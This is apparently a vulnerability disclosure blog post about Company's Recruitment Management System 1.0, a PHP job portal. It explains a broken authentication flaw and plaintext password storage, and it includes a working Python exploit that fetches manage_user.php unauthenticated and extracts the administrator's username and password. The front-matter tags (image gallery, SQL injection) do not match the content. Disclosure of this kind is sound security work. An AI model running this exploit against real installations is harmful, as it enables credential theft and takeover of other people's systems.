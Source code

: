 ```yaml
---
title: Company's Recruitment Management System 1.0 - Remote Readable Administrator Credentials (Unauthenticated)
tags: [ exploit, simple-image-gallery-system, sql-injection]
style: border
color: danger
description: ""
---
```


![](../assets/img/companys-recruitment-management-system/1.png)

## Introduction
This is a **PHP Project** entitled **Company's Recruitment Management System**. This project is a web-based application that is a sort of job portal website for a certain company. This system provides the company's possible employees an online platform to explore the careers/employment vacancies of the company. It has a pleasant user interface and user-friendly functionalities

**Link:** [Company's Recruitment Management System](https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html)

## Vulnerability
The flaw is actually a poor authorization control, by which a **remote and unauthenticated attacker** would gain access to **private areas** of the application.

The following evidence shows how the software has an authentication form.

![](../assets/img/companys-recruitment-management-system/2.png)

The following illustration shows the conditional used by the application after authentication, where the path "*index.php?page=home*" is shown.

![](../assets/img/companys-recruitment-management-system/3.png)

The **remote attacker would gain access to the application's control panel without the need for credentials**, because the application first loads the website content and then performs an authentication check.

![](../assets/img/companys-recruitment-management-system/4.png)

In addition, the **attacker would gain access to the entire application**, obtaining **confidential data** or altering the **information arbitrarily**. 

![](../assets/img/companys-recruitment-management-system/5.png)

## Impact
The vulnerability could be exploited by unauthenticated remote attackers to:
- Gain access to the application's management panel.
- Gaining private employee data.
- Enumerating relevant corporate users in the organization.
- Making arbitrary changes to the application.
- Privilege escalation.
- Theft of administrative credentials.

### Exploitation
Although the attacker would have access to certain information, there are areas of the application that are only shown to **authenticated administrator users**, but are they really protected for the rest of the users? 
The following evidence shows that the **attacker would manage to enumerate or alter the administrator users**, this is due to a deficiency in the authorization and authentication controls.

![](../assets/img/companys-recruitment-management-system/6.png)

Another of the deficiencies detected is that it seems that the **application saves the passwords flat in the database**, loading them directly in the "*password*" field of the form, logically an attacker would take advantage of this deficiency to **know the credentials of the users and administrators** of the application.

![](../assets/img/companys-recruitment-management-system/7.png)


## Automating explotation
Well, the attacker would have the **deficiency of authentication and authorization by roles** in the different areas of the application, it is also noted that the **password storage in the database is not encrypted**. Therefore, the attacker could program an exploit *concatenating the detected vulnerabilities* and **obtaining the administrator's credentials** with a single request and **without authentication**.

![](../assets/img/companys-recruitment-management-system/8.png)

#### Exploit:
```python
# Exploit Title: Company's Recruitment Management System 1.0 - Remote Readable Administrator Credentials (Unauthenticated)
# Date: 02/07/2022
# Exploit Author: David Utón (M3n0sD0n4ld)
# Vendor Homepage: https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/employment_application.zip
# Tested on: GNU/Linux Debian 10

#!/usr/bin/python3
# Author: @David_Uton (m3n0sd0n4ld)
# Github: https://m3n0sd0n4ld.github.io
# Usage: python3 CRMS-exploit.py http[s]//IP|HOST[:PORT]

import requests, re, sys

def banner():
    print("""
   _____ _____  __  __  _____       ______            _       _ _   
  / ____|  __ \|  \/  |/ ____|     |  ____|          | |     (_) |  
 | |    | |__) | \  / | (___ ______| |__  __  ___ __ | | ___  _| |_ 
 | |    |  _  /| |\/| |\___ \______|  __| \ \/ / '_ \| |/ _ \| | __|
 | |____| | \ \| |  | |____) |     | |____ >  <| |_) | | (_) | | |_ 
  \_____|_|  \_\_|  |_|_____/      |______/_/\_\ .__/|_|\___/|_|\__|
                                               | |                  
                                               |_|                  
""")

if __name__ == '__main__':
    banner()

    if len(sys.argv) == 1:
        print("[!] Error! Specify the URL")
    else:
        url = sys.argv[1]
        
        print("\n[+] Extracting user and administrator password.")

        s = requests.session()

        r = s.get("%s/manage_user.php?id=1" % url)

        username = re.findall(r'id="username" class="form-control" value="(.*?)"',r.text)
        password = re.findall(r'id="password" class="form-control" value="(.*?)"',r.text)
        
        print("\nUsername: " + str(username)[1:-1].replace("'",''))
        print("Password: " + str(password)[1:-1].replace("'",''))
```

## Mitigation
Of course, the complete review of the application, being necessary to check user authentication in all areas of the application before loading the information.

It will also be convenient to resolve or apply a correct authorization control by roles in sections and files of the application, mitigating that users with low privileges can access or perform arbitrary actions of higher roles, this could allow an escalation of privileges or the total compromise of the application.


## Links
- [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
- [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html)